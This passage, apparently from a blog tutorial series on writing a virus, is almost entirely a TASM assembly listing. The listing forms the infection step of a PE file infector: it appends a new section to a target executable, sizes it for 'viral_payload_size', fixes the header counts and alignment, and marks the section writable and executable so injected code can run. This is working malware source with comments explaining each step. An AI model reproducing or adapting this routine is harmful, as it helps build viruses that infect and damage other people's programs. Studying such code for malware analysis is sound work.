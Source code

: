 ```tasm {linenos=table}
mov (IMAGE_SECTION_HEADER [edi]).VirtualSize, eax

; Fix the virtual address, again ensuring section alignment
mov ecx, [lastSegHeader]
mov eax, (IMAGE_SECTION_HEADER [ecx]).VirtualSize
mov ecx, (IMAGE_SECTION_HEADER [ecx]).SecHdrVirtualAddress
add eax, ecx
sub eax, 1
xor edx, edx
div [sectionAlignment]
add eax, 1
mul [sectionAlignment]
mov [edi].SecHdrVirtualAddress, eax

; Back at the start of the PE file fix the section count by incrementing it
mov ecx, [targetP]
add ecx, (IMAGE_DOS_HEADER [ecx]).e_lfanew
mov eax, [numberOfSections]
inc eax
; Write the updated number of sections
mov (IMAGE_NT_HEADERS [ecx]).FileHeader.NumberOfSections, ax

; Fix the raw data size, ensuring it is a multiple of the file alignment
mov eax, viral_payload_size
sub eax, 1
xor edx, edx
div [fileAlignment]
add eax, 1
mul [fileAlignment]
mov (IMAGE_SECTION_HEADER [edi]).SizeOfRawData, eax

; Fix the raw data pointer - this should point to the beginning of the
; new section, which is located right after the end of the current last
; section. Adding the last section's PointerToRawData (the start of the
; last section) to SizeOfRawData gives us this address.
mov ebx, [lastSegHeader]
mov eax, (IMAGE_SECTION_HEADER [ebx]).PointerToRawData
add eax, (IMAGE_SECTION_HEADER [ebx]).SizeOfRawData
mov (IMAGE_SECTION_HEADER [edi]).PointerToRawData, eax

; Save the pointer to raw data and the size of the raw data
mov eax, (IMAGE_SECTION_HEADER [edi]).PointerToRawData
mov [injectStart], eax
mov eax, (IMAGE_SECTION_HEADER [edi]).SizeOfRawData
mov [injectSize], eax

; Fix the section flags. Notably we want this to be both EXECUTE and WRITE
mov ecx, IMAGE_SCN_MEM_READ + \
         IMAGE_SCN_MEM_WRITE + \
         IMAGE_SCN_MEM_EXECUTE + \
         IMAGE_SCN_CNT_CODE
mov (IMAGE_SECTION_HEADER [edi]).SecHdrCharacteristics, ecx
```


[welcome]: /2019/01/lets-write-a-virus/
[setup]: /2019/01/getting-set-up/